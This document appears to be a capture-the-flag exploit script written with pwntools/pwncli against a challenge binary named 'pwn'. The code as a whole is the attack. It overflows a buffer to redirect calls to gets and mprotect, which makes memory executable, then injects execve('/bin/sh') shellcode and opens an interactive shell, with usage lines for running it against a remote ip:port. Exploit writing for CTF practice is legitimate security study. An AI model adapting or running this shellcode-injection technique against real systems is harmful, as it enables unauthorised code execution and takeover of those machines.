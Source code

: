 ```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
#  set_remote_libc('libc.so.6')
context.arch = "amd64"

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx=0, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:1] == b"1":
        ru(b'data: ')
        sl(key)

buf_addr = 0x4c5000 + 8
gets_addr = elf.symbols['gets']
mprotect_addr = elf.symbols['mprotect']
bytes_binsh = u64_ex(b"/bin/sh\x00")
call_func(b"0\x00".ljust(0xf8, b"\x00") + p64(buf_addr) + p64(gets_addr) + p64(mprotect_addr))
# -1 => shellcode
#  0 => gets
#  1 => mprotect

shellcode = b"a"*8
shellcode += asm(f"""
    // execve(b"/bin/sh\x00", 0, 0);
    mov rax, {bytes_binsh};
    push rax;
    mov rdi, rsp;
    xor rsi, rsi;
    xor rdx, rdx;
    push SYS_execve;
    pop rax;
    syscall;
""")
sl(shellcode)
call_func(i2b(1), 0x1000, b"a"*7)
call_func(i2b(-1))

ia()
```

---

